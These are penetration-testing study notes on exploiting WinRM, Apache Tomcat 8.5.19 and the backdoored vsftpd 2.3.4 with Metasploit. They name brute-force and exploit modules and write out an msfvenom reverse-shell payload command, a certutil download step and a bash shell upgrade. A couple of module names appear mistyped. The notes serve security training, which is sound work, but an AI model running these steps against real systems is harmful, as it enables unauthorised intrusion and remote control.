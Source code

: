 #### Exploiting WinRM ####
+ WinRM implements access control and security for communication between systems through various forms of authentication 
+ Can utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system
+ Can use MSF WinRM exploit module to obtain a meterpreter session on the target system

After verifying the service is running, will do the following:
+ Verify auth-methods with: `auxiliary/scanner/winrm/winrm_auth_methods`
+ Can <mark style="background: #FFF3A3A6;">bruteforce</mark> it with `auxiliary/scanner/winrm/winrm_login`
+ With credentials, can use `auxiliary/scanner/winrm/winrm_cmd` to run a command
	+ Can specify a command to be ran like `whoami`
+ To get a meterpreter session: `exploit/windows/winrim/winrm_script.exec`

### Exploiting A Vulnerable Apache Tomcat Web Server ###

#### Apache Tomcat ####
+ Known as Tomcat server, popular, free and open source Java servlet web server
+ Build and host dynamic websites and web applications based on the Java software platform 
+ Utilizes the HTTP protocol 
+ Runs on port 8080 by default
+ Apache Tomcat is different then Apache because it is dynamic and in java 
	+ V8.5.19 is vulnerable to remote code execution via `jsp`
+ MSF has an exploit module 

#### Exploiting Apache Tomcat ####

After verifying Apache Tomcat is running:
+ Will use remote code execution with: `exploit/multi/http/tomcat_jsp_upload_bypass`
	+ can set the payload as `java/jsp_shell_bind_tcp` and `set SHELL cmd`
+ To upgrade to meterpreter, will generate a windows meterpreter session with msfvenom:`msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > meterpreter.exe`
	+ Will transfer that over to the target and download the executable 
	+ `certutil` will allow downloads from a webserver
+ Will now set up `mutli/handler`, and the run the exe

## Linux Exploitation ##

### Exploiting A Vulnerable FTP Server ###

#### FTP ####
+ Protocol that uses TCP port 21 and used to facilitate file sharing 
+ Frequently used as a means of transferring files
+ <mark style="background: #ADCCFFA6;">vsftpd</mark> is an FTP sever for Unix-like system including Linux systems and is the default FTP server for Ubuntu, CentOS and Fedora
+ <mark style="background: #ADCCFFA6;">vsftpd</mark> V2.3.4 is a vulnerable to a command execution vulnerability that facilitate a backdoor that was added to the <mark style="background: #ADCCFFA6;">vsftpd</mark> download archive through a supply chain attack 
  + can open up a bash with `/bin/bash -i`
  + Will then use `post/multi/manage/shell_to_meterpreter` to upgrade to meterpreter 
